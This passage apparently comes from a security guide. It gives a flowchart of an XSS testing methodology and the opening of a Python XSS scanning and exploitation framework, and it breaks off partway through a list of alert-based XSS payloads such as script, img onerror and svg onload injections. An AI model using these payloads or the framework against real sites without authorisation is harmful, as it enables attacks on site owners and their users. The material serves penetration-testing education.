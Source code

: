 ### XSS Attack Methodology Flowchart

```mermaid
flowchart TD
    A[Start XSS Testing] --> B[Identify Input Fields]
    B --> C[Test Basic Payloads]
    C --> D{Payload Executed?}
    D -->|Yes| E[Confirm XSS Vulnerability]
    D -->|No| F[Try Advanced Payloads]
    F --> G{WAF/Filter Present?}
    G -->|Yes| H[Bypass Techniques]
    G -->|No| I[Test Different Contexts]
    H --> J{Bypass Successful?}
    J -->|Yes| E
    J -->|No| K[Document Findings]
    I --> L{Context Vulnerable?}
    L -->|Yes| E
    L -->|No| K
    E --> M[Exploit Development]
    M --> N[Impact Assessment]
    N --> O[Report Generation]
    K --> O
```

### Advanced XSS Exploitation Framework

```python
#!/usr/bin/env python3
"""
Advanced XSS Testing Framework
Author: S. Tamilselvan
Features: Context-aware payload generation, WAF bypass, automated exploitation
"""

import requests
import urllib.parse
import re
from bs4 import BeautifulSoup
import json
import time
import random
import base64
import hashlib
from concurrent.futures import ThreadPoolExecutor
import threading

class AdvancedXSSScanner:
    def __init__(self, target_url):
        self.target = target_url
        self.session = requests.Session()
        self.payloads = self.load_payloads()
        self.contexts = []
        self.vulnerabilities = []
        self.bypass_techniques = []
        
    def load_payloads(self):
        """Load comprehensive context-specific XSS payloads"""
        return {
            'html_context': [
                '<script>alert("XSS")</script>',
                '<img src=x onerror=alert("XSS")>',
                '<svg onload=alert("XSS")>',
                '<iframe src="javascript:alert(\'XSS\')">',
                '<body onload=alert("XSS")>',
```